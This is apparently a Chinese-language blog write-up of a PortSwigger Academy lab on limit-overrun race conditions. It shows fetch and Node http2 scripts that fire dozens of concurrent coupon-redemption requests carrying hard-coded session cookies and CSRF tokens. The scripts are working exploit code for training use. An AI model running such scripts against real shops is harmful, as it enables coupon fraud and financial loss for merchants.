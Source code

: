 ```yaml
---
title: Race conditions
description: Race conditions
---
```


## Lab: Limit overrun race conditions

| Dimension | Description                                                                            |
| --------- | -------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/race-conditions#limit-overrun-race-conditions     |
| Lab       | https://portswigger.net/web-security/race-conditions/lab-race-conditions-limit-overrun |

這題很簡單，就是要同時送出很多個兌換碼的 HTTP Request，但很可惜，但要在瀏覽器控制併行送出多個請求會比較困難

```js
const couponForm = document.getElementById("coupon-form");
const sp = new URLSearchParams();
sp.append("csrf", "hJBGfUUwkgeehlxTw7z4T2IuBGB7nBOy");
sp.append("coupon", "PROMO20");
function applyCoupon() {
  return fetch(couponForm.action, {
    method: "post",
    headers: {
      "Content-Type": "application/x-www-form-urlencoded",
    },
    body: sp.toString(),
  });
}
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
```

稍微調整一下，改用 NodeJS 試試看

```js
const couponForm = document.getElementById("coupon-form");
const sp = new URLSearchParams();
sp.append("csrf", "hJBGfUUwkgeehlxTw7z4T2IuBGB7nBOy");
sp.append("coupon", "PROMO20");
function applyCoupon() {
  return fetch(
    "https://0a1c00990378dd4680117b6b00a700ae.web-security-academy.net/cart/coupon",
    {
      method: "post",
      headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        Cookie: "session=oQf2bCYK3mMzTQnM3OP1YuZbr6mNFlen",
      },
      body: sp.toString(),
    },
  );
}
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
applyCoupon();
```

結果更廢，大概只有 成功兌換 1 ~ 2 張折價券，看來需要尋找一個可以併行送出多個請求的 script 或工具

後來嘗試用 NodeJS 的 http2 模組，成功率有大幅上升，可惜我還沒寫 HTTP2 的文章，就要先碰到 HTTP2 的知識QQ

```ts
import http2, { ClientHttp2Session } from "http2";

const client1 = http2.connect(
  "https://0aeb00a00410a86b81408080007800c2.web-security-academy.net",
);
const client2 = http2.connect(
  "https://0aeb00a00410a86b81408080007800c2.web-security-academy.net",
);
const sp = new URLSearchParams();
sp.append("csrf", "eR7LzJBiKxvQVa8HadtAQcjUw6iYeWtN");
sp.append("coupon", "PROMO20");
const body = sp.toString();
const contentLength = Buffer.byteLength(body);

function applyCoupon(client: ClientHttp2Session, idx: number) {
  const request = client.request({
    ":method": "POST",
    ":path": "/cart/coupon",
    "Content-Type": "application/x-www-form-urlencoded",
    Cookie: "session=D3JPEkSb1gMHkQY9BjgzZZCqZm5kxXN0",
    "Content-Length": contentLength,
  });
  request.end(body);
  // const chunks: any[] = []
  request.on("response", (headers) => {
    const isSuccess =
      headers.location === "/cart" && headers[":status"] === 302;
    console.log({ isSuccess, client: idx % 2 === 0 ? "client1" : "client2" });
  });
  // request.on('data', (chunk) => chunks.push(chunk))
  // request.on('end', () => console.log(Buffer.concat(chunks).toString('utf8')))
}

Array(40)
  .fill(0)
  .map((_, idx) =>
    idx % 2 === 0 ? applyCoupon(client1, idx) : applyCoupon(client2, idx),
  );
```

成功解題，雖然不是每次都能穩穩地兌換 10 幾張折價券，但至少成功率比 fetch 高太多了

後來我看了解答，發現 Burp Repeater 也可以做到同樣的事情，且不用寫任何程式碼，也是蠻方便的

## 中途暫停

這系列的 Labs，從我 2025/10/15 打完第一題，我就覺得，我要先理解 HTTP2 的知識，這樣打起來會比較輕鬆，所以我會先去把其他系列的 Labs 打完，之後再來解這邊～

## 參考資料

- https://portswigger.net/web-security/race-conditions
